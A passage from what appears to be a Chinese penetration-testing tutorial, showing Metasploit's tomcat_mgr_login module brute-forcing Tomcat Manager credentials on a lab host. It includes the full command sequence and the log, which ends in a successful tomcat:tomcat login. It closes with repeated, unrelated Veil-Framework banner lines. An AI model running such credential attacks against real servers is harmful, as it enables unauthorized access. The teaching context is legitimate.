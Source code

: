 ```
msf auxiliary(tomcat_mgr_login) > set RHOSTS 192.168.41.142
RHOSTS => 192.168.41.142 
```

输出的信息表示指定攻击的目标系统地址为 192.168.41.142。

（8）设置 RPORT 选项为 8180。执行命令如下所示：

```
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180 
```

以上信息设置了攻击目标系统的端口号为 8180。 （9）运行渗透攻击。执行命令如下所示：

```
msf > exploit
[*] 192.168.41.142:8180 TOMCAT_MGR - [01/63] - Trying username:" with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [01/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as "
[*] 192.168.41.142:8180 TOMCAT_MGR - [02/63] - Trying username:'admin' with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [02/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
[*] 192.168.41.142:8180 TOMCAT_MGR - [12/63] - Trying username:'xampp' with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [12/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'xampp'
[*] 192.168.41.142:8180 TOMCAT_MGR - [13/63] - Trying username:'admin' with password:'admin'
[-] 192.168.41.142:8180 TOMCAT_MGR - [13/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
[*] 192.168.41.142:8180 TOMCAT_MGR - [14/63] - Trying username:'manager' with password:'manager'
[-] 192.168.41.142:8180 TOMCAT_MGR - [14/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'manager'
[*] 192.168.41.142:8180 TOMCAT_MGR - [15/63] - Trying username:'role1' with password:'role1'
[-] 192.168.41.142:8180 TOMCAT_MGR - [15/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'role1'
[*] 192.168.41.142:8180 TOMCAT_MGR - [16/63] - Trying username:'root' with password:'root'
[-] 192.168.41.142:8180 TOMCAT_MGR - [16/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'root'
[*] 192.168.41.142:8180 TOMCAT_MGR - [17/63] - Trying username:'tomcat' with password:'tomcat'
[+] http://192.168.41.142:8180/manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] successful login 'tomcat' : 'tomcat'
[*] 192.168.41.142:8180 TOMCAT_MGR - [18/63] - Trying username:'both' with password:'both'
[-] 192.168.41.142:8180 TOMCAT_MGR - [18/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
[*] 192.168.41.142:8180 TOMCAT_MGR - [58/63] - Trying username:'both' with password:'s3cret'
[-] 192.168.41.142:8180 TOMCAT_MGR - [58/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

以上输出信息显示了攻击 Tomcat 服务的一个过程。从输出的结果中可以看到登录 Tomcat 服务的用户名和密码都为 tomcat。

### 6.4.4 渗透攻击 Telnet 服务


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework